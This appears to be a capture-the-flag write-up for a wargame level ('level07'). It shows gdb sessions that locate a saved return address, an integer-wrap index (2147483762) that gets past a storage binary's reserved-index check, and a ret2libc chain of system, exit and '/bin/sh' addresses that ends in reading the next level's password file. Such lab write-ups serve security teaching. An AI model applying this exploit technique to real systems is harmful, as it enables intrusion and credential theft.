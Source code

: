 # Level07

## store command observations

We can see that the store command can store numbers out of the buffer.
So we can use it to write in the saved address.

## find location of saved address

We can use read command to find saved address.

```shell

$ gdb ./level07
(gdb) b *0x0804885c
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------


Breakpoint 1, 0x0804885c in main ()
(gdb) c
Continuing.
Input command: read 
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully

(gdb) info frame
 ...
 eip = 0x804885c in main; saved eip 0xf7e45513
 ...
```

4158936339 dec == f7e45513 hex

So if we write at index 114 we can redirect the program.
But wil decided to reserve all indexes as index % 3 == 0.

In order to bypass this restriction we need to use a value as ((int) x) == 114 and x % 3 != 0.

That's the case for 2147483762.

## Get all adresses for a ret2libc

### system

```shell
$ gdb ./level07
(gdb) b main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

system address: 0xf7e6aed0

### exit

```shell
$ gdb ./level07
(gdb) b main
(gdb) r
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

exit address: 0xf7e5eb70

### /bin/bash

```shell
$ gdb ./level07
(gdb) b main
(gdb) r
(gdb) info proc map
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...

$ strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
15d7ec /bin/sh
```

"/bin/sh" address: f7e2c000 hex + 15d7ec hex = 4160264172 dec

## Exploit

```shell
$ ./level07
Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
```
